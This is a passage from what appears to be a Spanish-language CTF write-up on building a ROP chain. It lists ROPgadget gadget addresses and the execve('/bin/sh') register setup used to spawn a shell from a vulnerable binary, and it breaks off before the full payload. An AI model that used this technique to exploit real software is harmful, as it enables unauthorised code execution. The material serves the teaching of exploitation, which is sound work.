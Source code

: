 ![Screenshot](images/Screenshot_14.jpg)

Lo que queremos hacer es una llamada al sistema. Para eso vamos a buscar los gadgets de los registros RAX, RDI, RSI, RDX y de las Syscalls:

![Screenshot](images/Screenshot_15.jpg)

![Screenshot](images/Screenshot_16.jpg)

De lo que RDI es "const char filename" (nombre del fichero), RSI es "const char const argv[]" (argumentos de entrada) y  RDX es "const char const envp[" (no relevante en este caso).

Lo que tenemos que buscar en la salida de ROPgadget son de este tipo:

- pop rax; ret; 

- pop rdi; ret; 

- pop rsi; ret; <- La única que no está, pero hay una parecida

- pop rdx; ret; 

- syscall; ret; 

![Screenshot](images/Screenshot_17.jpg)

#### Creando el exploit

Lo que tenemos entonces es:

- 0x0000000000400121: pop rax; ret; 

- 0x000000000040141c: pop rdi; ret; 

- 0x000000000040141a: pop rsi; pop r15; ret; 

- 0x00000000004023f5: pop rdx; ret; 

- 0x00000000004024dd: syscall; ret; 

Lo que queremos hacer es una llamada execve que haga "/bin/sh", para que el proceso pase a ejecutar una shell. Copiado de [aquí](https://hackmd.io/@ptr-yudai/B1M5LpWrI) tenemos que se traduce a lo siguiente, relacionado con las capturas de pantalla anteriores:

```
mov rdi, "/bin/sh\0"
mov rsi, 0
mov rdx, 0
mov rax, 59 
syscall
```

Es decir:

- A RAX un 59 (0x3b) (lo hacemos directamente)

- A RDI algo que apunte al string "/bin/sh" (esto nos puede liar)

- A RSI un 0 (esto solo nos puede liar que es *pop rsi; pop r15; ret;* y no *pop rsi; ret;*)
